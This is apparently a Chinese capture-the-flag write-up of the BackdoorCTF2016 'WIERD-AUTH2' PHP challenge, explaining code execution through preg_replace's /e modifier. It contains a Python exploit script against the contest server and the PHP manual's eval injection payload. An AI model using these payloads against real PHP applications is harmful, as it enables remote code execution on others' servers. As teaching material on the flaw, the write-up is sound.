


# 题目信息

`score: 200` `type:web,代码审计,php安全` `source: BackdoorCTF2016`

根据我的猜测，这道题是一道为了比赛而出的题，没有实际的功能。虽然题目考察的知识点不错，但是出题水平不高

[原题地址](https://backdoor.sdslabs.co/challenges/WIERD-AUTH2) &emsp;[猜解源码](https://github.com/ssst0n3/ctf-wp/tree/master/2016/BackdoorCTF/web/wierd_auth_2/source_guess)&emsp;[题目收集](http://ctf.a306.xyz:8001/BackdoorCTF2016/wierd_auth_2/)

## 题目描述

Vampire is keen on hacking wierd authentication schemes. He recently pwned [this](http://hack.bckdr.in/WIERD-AUTH2/). The source of submit.php is [here](http://hack.bckdr.in/WIERD-AUTH2/source.txt)
<br>Created by: [Dhaval Kapil](https://backdoor.sdslabs.co/users/vampire)<BR>No. of Correct Submissions: 6

打开页面查看<br>


随意输入一段字符<br>


提示You must enter the correct password to get the flag!然后给了一大串字符(0-9a-f)

## 知识点

[php文档](http://php.net/manual/zh/function.preg-replace.php)

# 题目分析

## 查看源代码

```
<?php

include("auth.php");

//*****
//未做过滤，存在隐患
//*****

$password = $_POST["password"];
$key = $_POST["key"];


//*****
//为了输出的更漂亮
//*****

// Pretty print
function p($var)
{
  print_r($var);
}

//*****
//判断key是否已经设置,如未设置则设置为md5('vampire')
//如果key不是字符串或者key的长度>5
//*****
if(!isset($key))
{
  $key = "1c020611e3b753925ffc8af8745c0556";
}
else
{
  if(!is_string($key) || strlen($key)>5)
  {
    p("Unacceptable key!");
    die;
  }
}

//*****
//对unlockedPassage中的字符进行替换
//preg_replace函数存在漏洞
//*****

$unlockedPassage = preg_replace($password, $key, $lockedPassage);

//******
//如果替换后的字符等于$actualPassage,则打印flag
//******

if($unlockedPassage === $actualPassage)
{
  p("Congrats! you found the correct password :): ");
  p($f);
}
else
{
  p("You must enter the correct password to get the flag!<br />");
  p($actualPassage);
}
```

## 分析源码漏洞

使用了[preg_replace()](http://php.net/manual/zh/function.preg-replace.php)

在php更新日志中发现:

<strong>
5.5.0	/e 修饰符已经被弃用了。使用 preg_replace_callback() 代替。参见文档中 <a href="reference.pcre.pattern.modifiers.php#reference.pcre.pattern.modifiers.eval" class="link">PREG_REPLACE_EVAL</a>关于安全风险的更多信息。
</strong>

<strong>Caution</strong>
```
<?php
$html = $_POST['html'];

// uppercase headings
$html = preg_replace(
    '(<h([1-6])>(.*?)</h\1>)e',
    '"<h$1>" . strtoupper("$2") . "</h$1>"',
    $html
);
```
The above example code can be easily exploited by passing in a string such as

`<h1>{${eval($_GET[php_code])}}</h1>`

This gives the attacker the ability to execute arbitrary PHP code and as such gives him nearly complete access to your server.

To prevent this kind of remote code execution vulnerability the preg_replace_callback() function should be used instead:

```
<?php
$html = $_POST['html'];

// uppercase headings
$html = preg_replace_callback(
    '(<h([1-6])>(.*?)</h\1>)',
    function ($m) {
        return "<h$m[1]>" . strtoupper($m[2]) . "</h$m[1]>";
    },
    $html
);
```

# Exploit

```
import requests
r = requests.post("http://hack.bckdr.in/WIERD-AUTH2/submit.php", data={'password': '//e', 'key': 'p($f)'})
print r.text[:75]
```

# 猜解源码

但是文章到这里还没有结束，我们研究一个安全问题，总是要把它落到实处的。最好的方法就是把这个代码猜解出来并自己实现一遍。

但是本题在实现过程中遇到一些疑问，可能是题目本身出的不好，也可能是我水平不够不能理解

## 源码

[index.html](source_guess/index.html)&emsp;
[auth.php](source_guess/auth.php)&emsp;
[source.txt](source_guess/source.txt)&emsp;
[submit.php](source_guess/submit.php)

## 存在的问题

### 此程序真正的意图是什么

#### index.html

我们看到`index.html`中存在一个js代码段
```
function c(r) {
  //省略
}
function mySubmit() {
    for (var r = document.getElementById("password"), n = r.value, t = "", e = 0; e < n.length; e++) {
        for (var o = c(n[e]), u = 0; u < o.length; u++)"a" != o[e] | "A" != o[e] && (o[e] = o[e] - 1);
        o = o.replace(/a/g, "/"),
        o = o.replace(/A/g, "/"),
        t += o
    }
    return t = c(t),
    r.value = "/" + t + "/",
    !0
}
```

其中，c()为md5。当用户输入password字段提交后，此js代码会获取password字段，并对每一个字符进行以下操作：

1. md5
2. "a" != o[e] | "A" != o[e] && (o[e] = o[e] - 1);    此操作没有实际意义
3. 替换所有的'a','A'

如果这个程序确实有实际意义，这段混淆代码设计的还可以。然后这段js代码只是混淆了用户输入的字段，故意使用户输入的字符串传到后台后并非自己想要输入的字段

#### submit.php

```
if(!isset($key))
{
  $key = "1c020611e3b753925ffc8af8745c0556";
}
else
{
  if(!is_string($key) || strlen($key)>5)
  {
    p("Unacceptable key!");
    die;
  }
}
```

如果没有输入key，则将key设置为md5('vampire')

#### submit.php

```
$unlockedPassage = preg_replace($password, $key, $lockedPassage);
if($unlockedPassage === $actualPassage)
{
  p("Congrats! you found the correct password :): ");
  p($f);
}
else
{
  p("You must enter the correct password to get the flag!<br />");
  p($actualPassage);
}
```

```
$actualPassage = "daf88bab215a3224c9854c1077e0aa824d7bf106b5e1549c720aca8e2f8e95eeacf421a95b5a1f5e65a1453e23d678f3429b77c98dc0e19703ba6f317179280a412e67fc47545273dbc013b508af8a003dcd16f646f25706d68b5d566b34a9804bae940a2d7dde2fdf6c8d58b2f76fa4f822f88677cd2d5af958fc74a166dcad76f3f33317b1b68655817ecc7853052fe05c3f501aea910543306eb0543744e0c66ebf3e6c6350de61fc37d901b2973900ff2d988f9e13e70555f7c184277193be88ff93332e6209bea3a0ee8c86a8df2d313df6ef248f2d1a6caa0d760edac297e2ac22525170a878eb50d902706f2e11c020611e3b753925ffc8af8745c05566075df399b102cce51983114c1cd9f181e98ba0fbd63a9dd62f7453c0e54500152f65125db8d194d27688e9b8910f646b1b00a69b8cec1fabd68e8cd9e78a5418d9a166e0a3d6b8706decaea334f072617be943eef15a7190954bca48abe5d8cf1ea3311ef7448acdb6f6549bd276a5b28859430740d4d23e4d5f3cdaea985df9756dc672508872dea75beca4d3f8e18bd9d8f40d9fcdcdef3d21ccfd2a634287112b4a1531e11309dbb8a05b94e81431ddf6a76cd85500f6355f3c91e51dfe725d23cd4947cee608262d6c8807a65db4d0c4a325a7fccd75af3244787cc71554b04436e7935209cddebac4b87ad545b9005228227a6b53915e1f34c0fe04296633523721ba406ead5942b977d6a442d0a67cde9c2946705ba2ad0a85ea287f69782fccbd646c119c9c3efca92d8da73d7399fe7c89948db76e04edb5e4841a94ec0ea4a9a4528dac298fa4758c92bc99ce73fe044efea9325844bae5ee6155b2e88b6a2f4b038687dc8142409a47af9547e1adc5ff83b480d802dc936eac472abdf4ff8c7f829fad041f410bc476adbd025ed806e7f659a733506574e75da79e5f07afcaf4d7bec49d31f2eaab3146238d7cc7e8c413344552bfe630fde3b199a031906a3f087649ef5966c3907972812a66c5a8a62ef38df7a196825cc009ef66ad99d71683959b6d18882a4b3141ad78a509f8c8f00579bfa7e1e180a4358ab25de07c55345fcdbb83b2b721eedd79371e6cc9029b9ed3d3af9b76c9d306502b422c7887024bd609d4e1ad7984c888791438b511f032365f17c4b907a2e88bfa7d4ba0bf3429bc7a2698fd6382eb9036b6adae436d1c020611e3b753925ffc8af8745c05565050372a94184fb25eb9e0526fa4e9115b53cfd5683c7163d0ab8bbf19814f62ef51ed316f33d301df16b81bb718fcb05c3f144ee64a91d9c1d01b0d5fef2f1ee3f05ac32e8f91857478caabecbb979b76730ed5b25fa0980f249dc44b3c3c3005c473d8c7b719059e0120cb87cb7dace5a38d47f152018f9fd0cf453e157cb974584a5938f001ad5839a6d8c0a2888447b9512503a85aea198f69ab4f3fa82f9fd13e08329c27667271b77803c12ed293e055b848f279735bb6ea74447b95addd975292dd613bfaa925a35cde57c5b2c4132d2a2429f5cbb71770c793f3d270d157f9ee1e1c38f806c542407eba61d887e686e140d3785d48cab9a0ec6594d2496c700e9cc33c7368ff9cf25484ba85411b6749c0f17d40c140b8b2c88e1ee7b39ccb7b2d302aa644f4c6cb404864e673018f01129678e1062ef7db21561e7a5637e6a49ef615e3d56ef9ec1c3633cde3b27e4d2f91c4cd6658ec6f6d07ed754d33cbd798d4efa0c07f27c0c55cd84dd96a30205ccd2e3b8a2226964de6aa322bdd8dcb610aa4250bd1ea1376effde59c6cc1c020611e3b753925ffc8af8745c0556fd17a468ba2ce074c6de29cab28dff1b716a0d6f7b24eb9ce4491ffa0b20e48d3b9a6c08d60c5baa63bbb7b9bec9cf1341c07909800b1b734d485277f7634d8f800e8a8c009f464060ca5f0866f913cee3cb94aec1e698cb86d64b120ef8c5c9f0c01e1456c07e21ad4e461592689574ab88c912643d5b14f6ea3f9f650137cec4829381e87b16602fc5a7e9882f8a6082a64c2824292e19f2b95ca8937cbc3c9661a242e033d510e9352d6de419d05c6c46448135ee5ba7e1e8915e6fa59b109bd9f5c900ae96e2f20841eedd514fe6b0df07b33d5dfdb4125c1f979efea6a1a84bb944fc56203fb0b11c020611e3b753925ffc8af8745c05563ff1bdd0eb7bcfe705b055c464abf8d096deace6e0d9c3110d5eabcae3ae264b0ff2e2fdb38c432521042507bd8117c42c33c40404d5363107d945799336e9b3dfcf1271e3b32ae293229b5b5cf5fa014a74d42c4e9ec6049e9fd642105918135c28dbd8d055cd44c28c0995a633744c8a210b905503c60ad3889420090daaf3e312d969ae6bb683724ae96393c6f47ab67293e2bfb52e010e536fb9c5a5030e265e9586bdd0168dbecaeea1adf9f26575d2be6c8bf966604816b0e0846f20bb2b0f66b75dd7426fcb454a5b14d3c1229008cb86aade870371a42db09e97625a4d6f4de1893d766b4d7885b0c812b2e93e686b31356b2ea03a18746c932451da0942b5264fd6c8bdd431db9b3167ad123185be1d37b6e36ca9c68a39339cd9bd69ba34de17795c4148e0265a4d797ea9d2e4a4bec554da084ec255307ba02559bf22f4cc6051f3571691b5389070f5be07d6a3b151243802cad4bd969607bcaa57b7619c24c3f17c9239355b38c404e11472c0b188025820fb6971c020611e3b753925ffc8af8745c05566c521094502b6b3b6618587bb10bc640bb15b39d6d91b29f061a9d3411b52384f56470f92a57a3794b6a17ef665fafd8d28b55f7f58b762fe9f903c862381f547ed1d07de2eae3dfc32f4413b7dcd15b6ebee455066d8499b510c55b954a095c8c2dd63a6e1e3d8683c104c61713b6179163653b869e25410f0446812f0312e1c020611e3b753925ffc8af8745c055631e0bf9d4616a9bd2686d19ff5fb7033018234e8958293fe8d2de295710305f587ca6660d5bb9bd31e288a7fab2570c6b1658efa55994c3433a26b2fff680642d30767b0cf77d8ae8c3a4a64e1c4786be011010fe1e12046dbeb73120ee18154b56d2dfb45836baaf133c6bdfa87bbc29dbe410aa15fc10720cf97be236712ea805a68b46c3a6fd89962e6cb08d6aa7a76b44cb7dd843a4f789f0b115a0fe1a5933b04bbf4f620886394520aa1fd658ee704d881c7c3172a77c972d489cfbce712774d563b3fa786041feae70d4fe1cdb2db1f43de4194546b58b285fd90a389d0a8b2ad6e58d843fddd823d41706e7d3cb1515497a8a23c00bdbc2c1bcef8b1a03f6ab4d0b8086015ad72c6657435904859890ec7415bf08ff67f25ec2ce6e2731dd10508e50a542724bc22f0fdf5c8a2f1de3bee819502ab9cb6b3abb9c608f3290758014445ef34a88d088a4c3bdcfcb40453d3cf69b44026e9651b7e9e36f6a99e734adb8961961cbd013420999e83b5f0635528e4b38de2266da81aa2e6a8a63120c59f04246b21f381825c3da5ebd4f45fec5e81901d9993884366c3a6c8cbaf4d1d503a8b565c72416f566881d136688ae449ed61a15fad3f996fdb4b2f65677ec0d247e91c4da218a6d0e95d6ff4ba5eb046f84c2736fc2dc19d73e9b5ebbf4727c7f5288b9265238e0f8996de18e6d08991c020611e3b753925ffc8af8741c020611e3b753925ffc8af8745c05565c0556fc5d12e759816416fb6ffc716da8fbbb00003e124388af098af416b7a0f13e55d12e0c647ee5a2c1910a9171159e4d6e90039b07a9e4d5a9d8314308cd72a3117bb2a781b1de1856fe4a62374f3d1f21b8116ba7db6c8283dc64b44c18441bc0489e5ea7607ed630354a613723fe3bab3cf863f1ee063a4bf278d81018f38ab6563295c72cbe85da4a154ca2c12119cab0ddf9e947e5e4377a5b9e62162b4af87ac6c46edd8ade5e500fb0e11af3c05199e6d33b4153ea6c47f4b432f95d946e315f79cc0e46d2af394ca5fb1e8704eb3900ca357df62f6eb5f1762715ed40689894f69930d864d0913e7ead53c15a058239e2100385eaf9850801d1613d5aa2b9b7e4693a5dc2010233580555317061bb1f6a867ba8f253ad0d3ea1feb6fba6aee410af8f7041cf3f8b45aa90a18aae8dfc58e6a97420f872471aabdd5ca5ba73d95de88b50ca2bad78029a49404e2ec4ce3a9da296f845501815573be890eae644ec4d6b5698f01f8a811cd058604928488761aac2a41aca3ca0fee99002383d1414f10547e2422871ee69526b478d9357aea345537f8d1c5c0d8b65a5e1a59c6cf8a75364022da973eb55bf4cf8df8c4d2c2295c5041d9ff6a7e53b61c3769e33042cd10af6371d6d1a463d2356d662752ed4155e77497eb3e77f68a861df010b2368f5571b38ca3667fc3524758e132b04b61180a069780376c1c8cbb6034393e4b620c4e0290426964f17be62f92878febbf7f4defc0e73feb1c736bd3316d48e2655d150d31c229ce7d4b7f63ac75e68fa06f01d9ec15eec82a8c89ebe1a96470f4799bcc9b5743858ade99114d85fe4fbe6b752ca4d83b3d4d5de5f2d4a75c37777d6e3430a1ae530adf0992673c746fc858f22b90359175fdf087a6f0a4ecff54e6cffe7ebf20c470352d79056812ed417aa03d2ca3d8c7115eec6794f6e7ce7658123474c0e4a51a90ea8ae7d624998687f50aff70f7663b23f9fc9cf7f899532c2a87a8df3c4054dba0c261b7c284fd4e1b86798219295da3207485cf14bfa95cb3f3b832e90466e1c020611e3b753925ffc8af8745c0556481747ca80b80e3a2277156d4ee4d4169d0908064c07c76b76710fe8cc23eaaac6994495baed36c808d595819e3e2abd07469083a7a8eb45eefff7ed20fe0f1d5ab559c9bd2f3ef3e61c020611e3b753925ffc8af8745c055633b0f782e525695ca55c8a3f3907ba48df8048431c492318cf8b86e6456bc075e45c0ff1a1e7d4384794b4f28b35b6c084d23ffd554d492cdc08ed158aadc5045603d501238c7bc6dbcf27d457387d1d71c6c23d641856488887bd862f23247f6652ddcf36261bef2e413aff64010170723f2a183af2b9da6997666e2b624bf262109eb815a3ae60cb8056379c7f5c58b2437adf1225eba3df99b31ba567878d69403174dbd4cdf9b6ab899c43621b7a347cdf8d82128141306e5cf249915d3504f34489e61c766a0dd1303ede25b6ae93464e1b8d8b2bb003a530ac1a67e27f631b6a3db452456f17930cc94c861c020611e3b753925ffc8af8745c055684df34555dff0580b3945bcfe951d326368875322ac16b09a44f81a7cf959aed1aca4a605bddcfb32dd35bf493db963b1383912c62210366072456dc600dd061710f05fbb257e36bb0556e539449ad79bc06bbc03ce7348dab562cbb7eefa6e6025551d9cb9f715e8ce00b5907eafc6d14be24d3725f3c8e3869d7e73eec8a70e4888c00368acebb007ce3defd00d0812cfbf173d82ad1072f6cf0a51bf5f252cef7f6fb51be887c2066c940e36219065d2cc8fa370a056c1e898d21c020611e3b753925ffc8af8745c0556e889d1bec4ce191cd3cebdc34568baec1d0af586dffe138b62458fb43a0e23bbffb2eaf70463bcc2be6b978b884586e70f8e7788b066ccc42180bcf4c68c5aad8957d28c7b25b0295af86e6b53d0aaf90303835b4113e41a81c3262da686e7a87ed127ab561b79dfb57e77b432262fc965071f156b8fe14dac7861fa38acfc2e895551c3fc3d1c020611e3b753925ffc8af8745c05560ae3b3f990d7960a012b46401b1549c1d7d0f986a01d328dc114161fa12591e99be8354a0dda434a8c4a1b5756eef199273936582c0850cd7c2c7bcfe612ca946aab6c394e712e532232c1d9ff8fde8f9737f699b88a2dadcaf7d98f78d9369526407bdceb6f7660c1c55b7b994892bb2dc0b9b024586e3382dbb65259609bd8b9be02180361bdc7137506df9774e0ed10acf206b5c4225f71d7ba90eb2405fc6f7340194d6b757221fd55e787f7ed1240d1a41b34b773960fc0081d3c36f51c020611e3b753925ffc8af8745c0556d3b2fc14f8b6c172a07d7f5e70bb70b25e3aab2e08ad87715293fd8d70ee622a62c916b66b1053a411fca26ec1a1af55241bfd81f40c871c0279c216503e59f5469d270c57dda8b42e6fe3e11516b94bfdd37ca0b5808d37b6121908e2584c4da987df96092341b231c4eb4fd00bbed7b0d5d1155cea206002b2f617cbd80d71925cad1c020611e3b753925ffc8af8745c055643df03a9bf51109d2c50b3fb32bfd4b0622562a497dc2225390b9883338d49a87122220572db79bfcf6d4980d7677b7bf063185abf71c020611e3b753925ffc8af8745c055690b6ad401335b587e3187ea76a9a7340721ce58bff9cc2656378448bfe36e729f02083003d227dbfda090993582981677b8de1ec6472ca74f4baf4a3a44b5486c0240e107d5bae32b1fd0f14748f8c63cc84a255179e54131bb6b107609adabc45f5ec9002d3540deadaf9838e23bd498676b97cdba2634cf5b22cdb3a3987c632227ec96fa4c8cb8df21cdbad4702f18e42d3fbd3d60dc064c220e108dc8ce254a64b961c020611e3b753925ffc8af8745c0556e996b7ce24d735b6422ed595a733c930f1f0eee92801574ea776b550f399d8b5ffb432ff18033eac90c3d2b96880f04db206a0e3761a4a5e080ec398f0c60af8e61275802cd501b73d10a16f853637d05bef6f2018ef2592a5af28d70d084f396047dcbee12673f9897d2eb9361351aef1f71d1e6731409a7f791b72d283aef84340129423c4a1981fba0f9edb77a71f7fbb22cc2fc6cc4d84159b09c2f0ee8d420f24a7b351f9ab49b1c020611e3b753925ffc8af8745c0556c6c625dab2c8e7b4e65cb60d05aedf80d020dc35b920d932e1f077eddf730b2a6ed04b632c09732e971a0bde0d85f55f359e1818400321c037eb354bbfd63ce5b037c1d99dca1696079d657b6e3238b4798b7418a9427868625416153daa8b3f4bbcfc14fd4753d260fe8ea81787ede03e2fc33e2812ae6f90a70afe4cdcd1075d1e140787387716b7cfb84f784ba8e28c67a6c6f640b22abb3499b8d9d5b0513264a2a6ffe54a294ec842f6868366deeaf7c5d2d4324e1a4a89237544650bc1940a8e49e7ecbb40cdd8c30b870e3356b388ab5a98c37deebd5427d89b2f23a126303a67aa6bddf6f70307b5041267f0b889ed80d0310ec5ab3f405115198d80409674094f35612f6ba55fbfdab72d941a325f79f38259c60aef4e1eb31b2b4a247e680f3da0985c714e36b2d0f1e1f0633ef8af0dab3423b5e4e2ae66c85f7c62bda293a04e71dc1ac2a1d362d93be571016d99d8daf48785d5e79b61eaba7b9a0f7d9fd148f03a324bbc3bb99271d25897d737c23f063faa6c9e8acec2cfef5e08b2129bcbfaca188ad8b63fd6c742fb288e3b2916391869a4b2556844fe81afffaecd191587fb8d9665483d097ada26f3d562bf0d1ed8642c587480387167bfe3fbd78c6a5d89fd13e2258bfe1d1b8f449e2bb56ccc5743180abc8b34417c377ba655848caf42cb9af8b629835f5d61c020611e3b753925ffc8af8745c05565e1d011e65fd5f396484d1c51b93773cba0cb32d53bab4f1f8bda57a747dfbcd355924fadc0d672eb9ab89f855f32be477193795e5b23d0aea404cbd5e9a8e039026636abf2a3650ddb39fbf04c12078750b43c6f45255685e2ae2b02b3810de3defa2bcbf31f60c2012ff03ebb98d0405af3c791477a16f8ee1ffa8c83796adc09d4394eb9fde1bb7253bd4cbbc22c8a5b22bee55d10b8d0efa192730aed99bea1880f0a9b9c75296210eb36b824677c7480b04c8c9221028fd5017f06d47953528d592604bd7dd7e662128d332e1ea9cbf4a8ae80adb760247839b6399508a479af4095e5550cd0b4ff7b5b7bc84745ce42a6f54d5fc8392abda978fa68dad7b7da2679696e4c250a75a5cff353afa55fd0ff1fdb821b82e28d4a970057e3a73a6be57295c27fc6bf318424113eb9245709058071d9b69bd62709df7e69c154afde60d267349dbd4fd856e4540fe3de413c0ae1375210790c763dc28c209f1234837f667cfca2d84e9fb2024347281f1b579a19c9f3736c152132b748db588f5533d6a643fe63d401e3cc682cf5b722cac5dda0b1bed660035e6ab344161aefe7e412a43097a9520935072ace419bea590f0b9eeda80100f3a5b43330346a666e54880b150a2b0b01f13b5472dd1ff645de89eb6cbd7589108b1fe36ca9c5e89a2143a049800eff58a1fe43ec45ec0e5f321f99760136062d7cff60a236992071058abf241a5818c036302866f088b005a1328f8a08b9694b164810413c90960149b8d48acf3ce33d4af6c18429f94ac9f96e4a73d75ea5627e4502c952ac739fe2474ec4d7b25d6410c2f60bc43d14a32cff22a1091dfba434a6657b3d2f26ca8cf42576c0397da0a6fecf57c47625dba98515146c9987804e82d6f9421651a994e167fd373f2efb4a2488e5a264c52433c58a15b6bf10a2d0bfd7f120c5bd75802aaeb4a3dc41b3f3b277806ec377ca21f6fb2ac81f8fa955e33e9c5a7960900c5ac033b83b66e6ca86af72f0e84355c247363caf1ced60661f0e1969bd58254079f1857cefd9ccf6d843a5be9e9e00e0c62dba187f9a717ad4433c9da9b0c0d1bb8bf16ad7528816b24beb639e9a2d47868be9e0c60d2af2e1f1b94ea8ff9d1a23a2e462721172e3766aabe4893c39621f0767b3164d5c009998066b370b33f2dcc037011cb715c42505dd380ff7d894d32c6a6f343afdc3bd2c70ea4d98ddeb2c46c79edf36ffaa53d3be744fbe4445ef0eaa94d60a66a7d60d097c960dc98cf93ad32b5514fa9b5d78c90e6dd463f5295909a0f7533b401f07b89f2355fee7cfbbedc8274b6f19e78e30afff617a7d3de2d2a472c8324910af36292ac6ef310ec6244c1469933cda00c0f83ab0c427a2d7f12563f90a22d5ea0a1d815026ecd51f9d78fb945c4effedf662d3eb16d604af3b5d6a17b273a9fdc84d24b45ba745c54cf03f44016b8ff686f3b2c0136d5b5f5b9683ef1c4bc668791784909780e026a5b17847bbac6757201ed4ee534ed29279de82c797f9b144b0e4fc905e6fdf4c294b66e37fb334076e9acb99e78de94ea29e97ad4319d5e5a33659c6631c882aa5ebc59338e7f488d2b6be84cf0575f06b346697398440aa595278c645b8f6876b5179a5d30891b6f050584552ec576029b63eff2e823776cc2e3ff0eec24fefd0a0b89970592a764e57025d927126a567f76065c009bec8fe4937c53b91e5f5f6a156f6b50f035ee5ec625fa0be9ad417dfa0b3f2a87e25458e6780990df9905fae80a21581207e6eceec9d41e3c3f3b4761d223069aaa0ecf369fd72f8ce0484253062e5e19a234097c9766018e4d3e678997fb38c662443dadfa26f8630d99975c2d160b3b67158a9648600a9bd2b440feb94d5c8c74134dae3d31f3c141d0fcc5d8b8567def84fcff79defbd64c2d533e3e16211cb8a907936fff502cb89bbf585776055a570b83c4215db59b9a596280a84f34ce14f888f4a483a4e8432965f32b55f566f4268ed279f7f12f48e3a4ae9ccd6b528710bc166bf469a2a796f4e292684a272243edb5ad18697392dd5852e7f7315943c3caea569584c7828a0085c8e9d53dfd04acda39bd7588c2239faa92d9f944141df88c0f5859bed97259a40ca30aa6f13e3de3da1bd0484da933a368c03d71db170442383b89de2459f63b672f5dabdfd0d395c9ea67edee691a7f4c9a170887250f5c53b1a2731b6ce4ad90ad7a3cfe1f268df03388f9192fcb79b90c8cbc0f73969eda4299e1f8645e9de4b653b3779e2bcd5d376a4d88b25a5d0fe321186adf609ede30fd92b82011f5a6bce982ffd657ca0c9680274426bf645a553104fecc001c39d254d30b445d32d1c6e983d386cc17545d6df30e6c1ce1ee95d0eaba47b3f73fd74f9c5e13cf54e47c08d7af8a0c45ec6b8206552507151eed5e1daa9ce24f45d0bd87b2f719704f0f741efb2d6593dca6ce2c16040c8459b2d3305903d83182762ce9a8fc99c38f7d02da0c5e7f9ccd74f5bfdffefa2ca58dd750de86f7123e8fef5f41bef7c0505e2775b90108af34bb663c3aa327e5e3b0f6826896424a52eabfb35823b21059fc4b85b664ef7c37da4e1c4d6d9081a6afb4b5bb6fe426ad8b291d78df1c6e0e09b371e712928f93a602c9699e3204c75e5700cabb495f7959830d3e472a66ddbdbe3d081e771dbb07764474409f9e5c3610dfe8733bc7edf8bb8a5dd90b2b782ed3d223b2ac227fa0522166ea478415465a0a00795278238c2e2c35384ef925061776de41d935b178801885dcd0271e4e286fc662872f8677cc13ed6a1cd8a8e275ce51e0aa87f2888aba15ba51caa1dc256f8a491edde1e08cc4ff73b00787ad657aea0ae6f1447c2b57fa7a5c1e1cef7f876020f8cb728860959c638bc11feab74bbee36c3f277dfe431e530d9c3a8fd6fc1889963afb21b09a608a60eee8ff94f1de39661cd9262b6494bbf5fbeb4dfb7180eef52a72d67d8f1fc6f67e15a9d117bd92f1bc757ab1f034a661cb7ae1211f5f2399332178f5ecd8274316c0cc09186fc71d74d420a3d83df574217626105212b430a6c589bccd1ba02f5334153a07feb8219925af3d86463b6f9695c801be18f31cbc9e5a9cd3bc87c196348bc705dc12da161e97c56a296701e4bc9b1af904c1c20e66453f47c90920b711f2c059c598ac7f3451cbe183229c1962751c2c24cfb8e229af225b540a549d80b89724de8f112c561f10908585a0837178e6ee39f9474f29fd35ae5b6d150a925ccdce015a2130fe502b366c2a99563e9824fb1d422eb36ef5969fa25c9e57c7cee66509272ec00cf09a8b63c69f1ae7a5eddc103559f0c4e763b3f445f0ee155a96609cc7e32c404f4c19fb604ab919dc380edf8c37a7d3393db347d0892b08258eecb180c2be0ff71a6f1041712f3a0ab071f626b7eba5c5ad6c0ebf5d9fa253f52b2dac144a401fcd03c2b61a3925ec81c6dcabf48aee26936f7dcace93084631b9179bbfe61729ce20f4b14c6ed20b6a577d3c4bd824d4e863112e7a8762afd41e30c759459f256d9b56209a66c64fa3510e567f7d2401067a25a68621d573db1942264b0bb2e19b4d18e64e7cf1a5ab265b3760cd1fe89603869286447bbcb6e6c83cb8ec848e0ae3829136276e8b7b0f323f182a52a037005bfbf295525ba949b9373c8df8b96650b98d7b6f6bb9bd9522cf9d31e96d3ea88d193e116803d36f5e4cf95935b761cefeca74f26346de7013d318cc8529f47384894e0cc9394cede993c6cef0812015fd1dbea1e17992a4d403cdc883d718289cc7f30a049621edc35d8b033408e2d8c2bd598c214e9f3d1ba41164bea9281649f3f21f138ce36cdee70c6748270298e1b8a88129c2de505e7be669d6243eac26f07b5e57df29ecd30b16372777eedb0f1c64f63a82675f33d1a1319bac4c1a085c97ec9eb6117559d9ecb45936cf6230e20c7794eddb662e0f5a8236085d921857090090f08d1520f3b5e1e4025c4f340717fefdbf73faf089b6c7f0d4b59f0fe27753d9c402f58453bafe66b98efd4e50e34108f7088b2578ccb2444ed8538663f529e933db0b17fc041357508e3e780406e91cfdb93ad3f117a824928ec00477b789b96d6802d1a740f17afc59d44b227de4237e36e7f48113db3289b29245ddf5055f4dda6fb926f21b331559b1f03c20abb954368d21fd557fd9d2d87d49d9f389b19647f7c81e0aa8d5e11eed67f3cbab8fd565d1ccbe74349ec73910382539104e28ea80c0baefbdd2d9b420b20b795dde4a66eefe2107b5354fb578e9560aad439132a4b3e02be72f8866264742cd7aba8d4b988fcc74532006437310714c25857c5e3595a53773b29b9de881cd4e6d8138f151f536781c3f68e1cbfc3d810f0800237435196040d237eca2401069d504ef9fd62066dc995b452a071f073b3b921c8a0af34891782de9ee9d8fdc2db424fc933daec6a9b33d912720fccb1397e56358d98c5a601b99e9d642c2c195061214d1a4f6e032539a004b9e3e72c4f25ec660b